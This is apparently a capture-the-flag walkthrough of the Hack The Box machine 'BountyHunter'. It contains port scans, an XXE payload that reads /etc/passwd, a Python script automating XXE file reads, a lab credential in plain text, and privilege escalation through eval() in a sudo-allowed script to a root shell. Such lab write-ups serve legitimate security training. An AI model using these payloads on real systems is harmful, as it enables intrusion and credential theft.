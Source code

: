 # [BountyHunter](https://app.hackthebox.com/machines/bountyhunter/)

```bash
nmap -p- --min-rate 10000 10.10.11.100 -Pn 
```

![Alt text](img/image.png)

Let's look at these open ports, we need to do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.100 -Pn 
```

![Alt text](img/image-1.png)


Here, I find web page which is under development cycle. That's `log_submit.php` file.

![Alt text](img/image-2.png)


While I look at request's body, there can be `base64` encoded data.

![Alt text](img/image-3.png)


Let's look at encoded data via [Cyberchef](https://cyberchef.io)

![Alt text](img/image-4.png)


I know that this data is `XML` language.

Now, let's do `XXE` attack by adding new `ENTITY` into XML data.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>CWE</cwe>
		<cvss>9.8</cvss>
		<reward>1,000,000</reward>
		</bugreport>
```


Let's submit `base64` and `URL` encoded data of this payload.
We need to turn on checkbox which called `Encode all special chars`.

![Alt text](img/image-5.png)


Let's submit this data into `POST` request.

![Alt text](img/image-6.png)


Now I wrote `Python` script which do this attack automatically.

```python
#!/usr/bin/env python3

import requests
import sys
from base64 import b64encode, b64decode


if len(sys.argv) != 2:
    print(f"usage: {sys.argv[0]} filename")
    sys.exit()

xxe = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={sys.argv[1]}" >]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>CWE</cwe>
                <cvss>9.8</cvss>
                <reward>1,000,000</reward>
                </bugreport>"""

payload = b64encode(xxe.encode())

resp = requests.post('http://10.10.11.100/tracker_diRbPr00f314.php',
        data = {'data': payload})

encoded_result = '>'.join(resp.text.split('>')[5:-21])[:-4]
result = b64decode(encoded_result)
print(result.decode())  
```


Let's run this script.

```bash
python3 script.py /etc/passwd
```

![Alt text](img/image-7.png)


Now, it's time to enumerate system files.

I find `db.php` file on `/var/www/html` directory.

```bash
python3 script.py /var/www/html/db.php
```

![Alt text](img/image-8.png)


Here, I got credentials of users, let's check this password for system users.

development: m19RoAU0hP41A1sTsq6K


user.txt

![Alt text](img/image-9.png)


While I run `sudo -l` command to check `privilege escalation`, it says that this user can run `.py` script called 'ticketValidator.py'

![Alt text](img/image-10.png)


Let's content of this file.

![Alt text](img/image-11.png)


I see malicious method called `eval()` which can execute system commands

Line=> validationNumber = eval(x.replace("**", ""))


Now, we need add our system payload in order to be executed.

![Alt text](img/image-12.png)

Let's execute this.
```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![Alt text](img/image-13.png)


I can see clear output of `id` command, let's change this cmdlet via `bash` to get root shell.

![Alt text](img/image-14.png)


Now, I will execute the same script and write filename and got root shell.


root.txt

![Alt text](img/image-15.png)